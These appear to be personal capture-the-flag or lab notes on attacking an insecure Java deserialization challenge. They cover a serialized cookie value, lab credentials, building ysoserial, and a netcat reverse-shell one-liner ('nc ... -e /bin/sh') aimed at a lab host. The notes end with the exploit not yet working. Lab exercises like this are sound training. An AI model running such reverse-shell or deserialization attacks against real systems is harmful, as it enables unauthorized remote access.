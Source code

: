 # Insecure Serialization




## Answers


## Steps


**1user  Analyze insecure/serialization website**
Insecure/deserialization credentials
thomas
mypass22


Cookie values: 
- JSESSIONID:"80D9B52D7F671CC3B97B43C985F9A8CC"
- user:"rO0ABXNyAB9uZXQuaXNjaGkuaGwuc2VyaWFsaXphdGlvbi5Vc2VyAAAAAAAAAAECAAJMAAhwYXNzd29yZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB+AAF4cHB0AAZ0aG9tYXM="
    - seems to be java serialization code (starting with "rO0")


**2 exploit**
Running ysoserial reverse shell
1. get ysoserial from github
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
```
2. fix dockerfile according to: https://github.com/frohoff/ysoserial/pull/193
3. run docker
```
docker build -t ysoserial .
docker run ysoserial --help
```


**Reverse shell **
credentials
- username: hacker
- password: 47jOydzxcp0u
10.103.0.6.  Port 1337 or 4242 
`nc 10.103.0.6 1337 -e /bin/sh`
<span style="color:red">creating exploit not working.. java installation problem
    
    TODO check messages: docker file has to be adapted manually 
       </span>